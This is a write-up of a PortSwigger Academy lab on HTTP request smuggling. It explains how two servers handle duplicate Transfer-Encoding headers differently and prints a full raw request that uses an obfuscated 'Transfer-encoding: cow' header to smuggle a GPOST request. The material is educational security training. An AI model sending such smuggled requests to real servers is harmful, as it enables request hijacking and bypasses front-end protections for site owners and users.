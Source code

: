 #  HTTP - request smuggling, obfuscating the TE header

## 📌 Lab Details
- **Title**: HTTP request smuggling, obfuscating the TE header
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/417947bec9fe621dfdc11f4d622cef72b0021a6d872aa83cca70aaf532b4b592?referrer=%2fweb-security%2frequest-smuggling%2flab-obfuscating-te-header

## 🔍 Summary
In this lab, the front-end and back-end servers handle duplicate Transfer-Encoding headers differently, with the front-end using the last one (`cow`) and the back-end using the first (`chunked`).
This mismatch lets us smuggle a hidden `GPOST` request inside the body, which the back-end treats as the next request, causing it to return “Unrecognized method GPOST.”

## 🛠 Steps to Solve
1. Intercept the request and send it to **Burp Repeater**.
2. Now, issue the following request twice:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-length: 4
   Transfer-Encoding: chunked
   Transfer-encoding: cow

   5c
   GPOST / HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0

   ```
3. The second response should say: `Unrecognized method GPOST`.

## 📖 Key Takeaways
- **Duplicate header handling differences** are a real-world source of request smuggling vulnerabilities.
- The **front-end** and **back-end** may choose **different duplicates** to honor — attacker can control which one gets used by each.
- Obfuscating the `Transfer-Encoding` header allows chunked parsing on one server but not the other.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/da1359d1-efa0-4187-95eb-9ff7e33ad4c2" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/1877d8cb-16fe-4cc0-bf13-13ffda1509d4" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/44865888-97bb-49ab-b308-a195b9cc7862" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/eaa32fbd-2695-4685-874d-0fb679e73bb8" />
